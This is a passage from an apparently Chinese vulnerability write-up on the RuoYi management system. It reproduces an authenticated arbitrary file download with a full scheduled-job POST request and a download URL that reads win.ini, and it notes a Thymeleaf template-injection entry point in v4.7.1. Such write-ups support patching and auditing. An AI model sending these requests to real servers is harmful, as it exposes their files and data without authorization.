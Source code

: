 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGH2TQ38ZAaJNGI5JYzl2qdJ9hiaSHWlj9zCf8AutN84xLhqQu0ftshaQ/640?wx_fmt=png&from=appmsg "")  
  
读取了D盘下的1.txt文件  
## 若依后台任意文件下载漏洞  
### 漏洞简介  
  
若依管理系统后台存在任意文件下载漏洞。影响版本：若依管理系统4.7.6及以下版本  
### 漏洞复现  
  
漏洞利用前提：登录进后台。  
  
首先提交一个定时任务。  
```
POST /monitor/job/add HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-CA,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 188
Connection: close
Cookie: o0At_2132_saltkey=JW6Gt2hb; o0At_2132_lastvisit=1691240426; o0At_2132_ulastactivity=2db4EUfD9WS50eLvnip%2B9TxK2ZhcO65vPL0dA6sPVF8AQSBMa6Qn; JSESSIONID=61e79ae9-8cdd-4e51-baac-d269ef551df3
createBy=admin&jobName=renwu&jobGroup=DEFAULT&invokeTarget=ruoYiConfig.setProfile('c://windows/win.ini')&cronExpression=0%2F15+*+*+*+*+%3F&misfirePolicy=1&concurrent=1&status=0&remark=
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGgQQShicG4MicibqrePAfGmTFfwgTHefjrfoeVhFC780yJMUiaCI8NBBlrQ/640?wx_fmt=png&from=appmsg "")  
  
  
通过浏览器直接get请求以下地址即可，下载任意文件。  
```
http://127.0.0.1/common/download/resource?resource=c://windows/win.ini:.zip
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGpuGgWibnHGDo9PVsHcZecajerEjIM2CvN1NTlNcDm7BGia6xEJALuGTw/640?wx_fmt=png&from=appmsg "")  
## SSTI（模板注入）漏洞 (仅适用V-4.7.1)  
### 分析在RuoYi的  
```
ruoyi-admin\src\main\java\com\ruoyi\web\controller\monitor\CacheController.java
ruoyi-admin\src\main\java\com\ruoyi\web\controller\demo\controller\DemoFormController.java
```  
  
下存在可控的return字段，且由于RuoYi使用的是  
thymeleaf  
视图渲染组件，因此可进行  
SSTI模板注入  
。  
  